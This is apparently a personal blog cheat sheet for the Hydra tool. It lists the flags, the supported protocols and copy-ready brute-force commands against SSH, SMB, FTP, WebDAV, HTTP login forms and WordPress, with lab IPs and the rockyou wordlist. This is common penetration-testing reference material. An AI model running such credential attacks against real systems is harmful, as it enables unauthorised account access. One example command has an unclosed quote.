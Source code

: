+++
author = "Noobosaurus R3x"
title = "Hydra Cheat Sheet"
date = "2023-07-18 11:12"
description = "Hydra Cheat Sheet"
type = [
    "posts"
]
categories = [
    "cheat-sheets"
]
tags = [
    "cheat-sheets"
]
+++
---
# **Basic syntax :**
```bash
hydra [options] <IP> <protocole>
```
---
## Some flags :

`-h` Show help menu  
`-l <username>` Username/login  
`-L <wordlist>` Usernames/login wordlist  
`-p <password>` Password  
`-P <wordlist>` Passwords wordlist  
`-s <PORT>` Specify port  
`-f` Stop bruteforce as soon as username and password are found  
`-R` Restore previous session  
`-t <number>` Number of threads  
`-V` Verbosity  

## Some protocols :

SSH, FTP, POP3, HTTP-FORM-GET, HTTP-FORM-POST, HTTP-HEAD, HTTP-POST, HTTP-GET, IMAP, SMB, SMTP, MySQL, etc...

## Examples :
```bash
hydra -l admin -P rockyou.txt 192.168.10.10 ssh

hydra -L top-usernames-shortlist.txt -P rockyou.txt 192.168.10.10 ssh

hydra -L top-usernames-shortlist.txt -P rockyou.txt 192.168.10.10 smb
```

## Bruteforce HTTP Post form :
```bash
hydra -l admin -P rockyou.txt 192.168.10.10 http-post-form "/login:username=admin&password=^PASS^:F=Your password is incorrect
```

## Bruteforce Wordpress :
```bash
hydra -l admin -P rockyou.txt 192.168.10.10 -V http-form-post '/wp-login.php:log=admin&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
```

## Bruteforce FTP :
```bash
hydra -L /path/to/userlist.txt -P /path/to/pasword_list.txt 10.10.10.10 -t 4 ftp
```

## Bruteforce WebDav : 
```bash
hydra -L /path/to/userlist.txt -P path/to/pasword_list.txt 10.10.10.10 http-get /webdav
```
---
If you want to watch my video on hydra (in french only) : 
{{< youtube id="Fu6Xn8RpO7Q" >}}